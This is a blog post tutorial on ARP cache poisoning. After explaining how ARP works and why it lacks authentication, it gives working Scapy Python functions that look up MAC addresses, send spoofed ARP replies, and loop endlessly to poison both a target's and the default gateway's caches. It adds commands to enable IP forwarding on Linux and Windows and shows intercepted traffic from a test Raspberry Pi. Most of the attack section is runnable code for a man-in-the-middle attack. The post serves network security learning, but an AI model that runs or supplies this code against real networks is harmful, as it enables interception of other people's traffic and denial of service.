 ```yaml
---
title: "A Look into Arp Cache Poisoning and Using It to Perform MITM Attack"
date: 2019-07-24
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - ARP cache poisoning
  - Scapy
---
```


# What is ARP?
At the lowest level, a switch connects a bunch of hosts together. If a protocol P on a host S wants to send some information to another host R on the network, S needs to find out the Ethernet address of R before it can transmit the packet. There must be a mapping of the address of R in protocol Ps address space to a 48-bit Ethernet address, to get the Ethernet address of R. The Address Resolution Protocol (ARP) provides this resolution. 

In IPv4 over Ethernet, the sender or receiver protocol address refers to the IP address of the sender or receiver. The hardware address refers to the 48-bit Ethernet address. To resolve a host with an IP address, say for example X.X.X.X, S broadcasts (Target hardware address is FF:FF:FF:FF:FF:FF or all 1s) out an ARP request with the sender protocol address field set to our IP address, say for example Y.Y.Y.Y, asking

```
	Who is X.X.X.X? tell Y.Y.Y.Y
```

All the hosts on the network check to see if the target IP address matches their IP address on receiving the ARP request. The host ‘X.X.X.X,’ on seeing that its IP address matches the one in the ARP request, sends out an ARP reply to ‘Y.Y.Y.Y’ with its Ethernet address. Once S receives the ARP response from R, it adds the Ethernet address of R to a cache table and starts sending out whatever packets protocol P has to send.

The following image gives an example of an ARP request and response. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-arp.png)

## ARP Messages
The ARP packet has the following format.

![ARP Packet Format](../../assets/images/arp-spoofing/main-arp-format.png)

In the above image, we can see that there is a field *Opcode*. This field specifies the nature of 
the ARP messages being sent. In this blog post, we are mainly concerned with the following two types of ARP messages.

1.	ARP Request, and
2.	ARP Reply

# ARP Spoofing
The main issue of ARP lies in the fact that there is no authentication of the ARP reply, i.e., any host can send an ARP reply claiming to be the Target. There is no check done by ARP to verify if the host that has sent the ARP reply is whom it claims to be. 

If host A wants to send data to host B on the same network, it will first resolve the hardware address using host B’s IP address, and then sends the data. If we send an ARP reply claiming to be host B, host A will update its cache with our Ethernet address. All subsequent messages are sent to us. If instead host A wants to send data to a host X, not on the same network, host A will send it to the default gateway which will then forward the message to the appropriate router. To intercept these messages, we need to send an ARP reply claiming to be the default gateway. Once we poison the target’s cache, we can either choose to forward the packets performing a man-in-the-middle attack (MITM) or drop them performing a denial of service attack.

## Performing ARP Cache Poisoning With Scapy
We can poison a target's ARP cache by sending spoofed ARP responses. Before we can send
the spoofed ARP messages, we need the target's MAC address. To get the MAC address, we
can send an ARP request to the target. This can be done in the following manner.

```python
def get_mac(ip):
  # Create an ARP packet with the target as the destination 
  arp = Ether()/ARP(pdst=ip)
	
  # Send the ARP request and get the response
  resp = srp1(arp)

  # Return the target's MAC address
  return (resp[Ether].src)
```

Once we get the target's MAC address, we can now poison its cache by sending a spoofed ARP response. The target might flush it's ARP cache and send out an ARP request to the actual destination. To prevent it from overwriting our spoofed ARP cache entry, we must continuously keep sending it spoofed ARP responses. We can achieve this by using the function *poison_arp_cache* given below. The function *poison_arp_cache* must be looped until the attacker wants to stop the attack.

```python
def poison_arp_cache(target_ip, target_mac_addr, spoofed_ip, spoofed_mac_addr=Ether().src):
  # Create the ARP response
  spoofed_resp = Ether()/ARP()

  # Set the destination MAC address
  spoofed_resp[Ether].dst = target_mac_addr
  spoofed_resp[ARP].hwdst = target_mac_addr

  # Set the destination IP address
  spoofed_resp[ARP].pdst = target_ip

  # Set the spoofed MAC address
  spoofed_resp[Ether].src = spoofed_mac_addr
  spoofed_resp[ARP].hwsrc = spoofed_mac_addr

  # Set the spoofed IP address
  spoofed_resp[ARP].psrc = spoofed_ip

  # is-at (response)
  spoofed_resp[ARP].op = 2

  #print(spoofed_resp[0].show())
  sendp(spoofed_resp)
```

On trying the above function with the target as a Raspberry Pi 3B+ on the same network as my 
laptop, I got the following results.

### Before ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-before.png)

### After ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-after.png)

We can see that we have successfully overwritten the target's cache table with my laptop's MAC address. All subsequent messages will now be sent to my laptop. But to prevent a DOS attack, we must forward the packets to the destination. This involves poisoning the destination's ARP cache table too. If the destination is not on the same network, we must poison the default gateway's cache table. To poison the default gateway, we need its IP address and MAC address. We can get them in the following manner. 

```python
def get_default_gateway_details():
  # Send a request to any host outside our network with the TTL set to 0
  p = srp1(Ether()/IP(dst="www.google.com", ttl = 0)/ICMP()/"XXXXXXXXXXX")

  # Return the source's IP address and MAC address
  return p[IP].src, p[Ether].src
```

In the *get_default_gateway_ip* function, since the TTL is set to zero, the first host on the route which is the default gateway, responds with an ICMP error message (TTL Zero During Transit). The function then reads the ICMP error message to get the default gateway's IP address and MAC address.

Using the information we got from the *get_default_gateway_details* function, we can perform the MITM attack. All the above functions can be called from a single function *perform_mitm* which poisons
both the target's and default gateway's ARP cache. 

```python
def perform_mitm(target_ip):
  # Get default gateway's network details
  default_gateway_ip, default_gateway_mac = get_default_gateway_details()

  # Get target's MAC address
  target_mac = get_mac(target_ip)

  # Keep sending spoofed ARP responses
  while True:
    # Poison target's ARP cache table
    poison_arp_cache(target_ip, target_mac, default_gateway_ip)

    # Poison default gateway's ARP cache table
    poison_arp_cache(default_gateway_ip, default_gateway_mac, target_ip)
```

#### Side Note on Enabling Packet Forwarding
To allow packets from the target or the gateway to be forwarded, we must enable packet forwarding so that our system acts as a router. Whenever a packet not destined to our system arrives, the OS automatically forwards it to the appropriate host. 

To enable this on Linux, we must do the following.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

On windows, we must carry out the following steps.
```
1. Open Regedit as administrator,
2. Navigate to the HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\ Services\Tcpip\Parameters\IPEnableRouter setting,
3. Right-click and select Modify,
4. Change 0 to 1 and exit the editor,
5. Type services.msc in the command prompt,
6. Navigate to the Routing and Remote Access service, 
7. Right-click and select Properties, 
8. Change to Automatic and click on Start to start the service.
```

### MITM Results
On running the *perform_mitm* function, all communications between the gateway and the target now pass through my laptop. On sending a GET request to **www.resonous.com** from the Raspberry PI, we can see the same request in my laptop.

![ARP Packet Format](../../assets/images/arp-spoofing/curl-resonous.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get-depth.png)

Since the GET request resulted in moved result, we can curl the website over https in the following manner. 

![ARP Packet Format](../../assets/images/arp-spoofing/res-https.png)

The same can be seen in Wireshark. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-https-depth.png)

That's it for this post. The complete script is available at my GitHub [page][page]


[page]: https://github.com/venkat-abhi/arp-cache-poisoner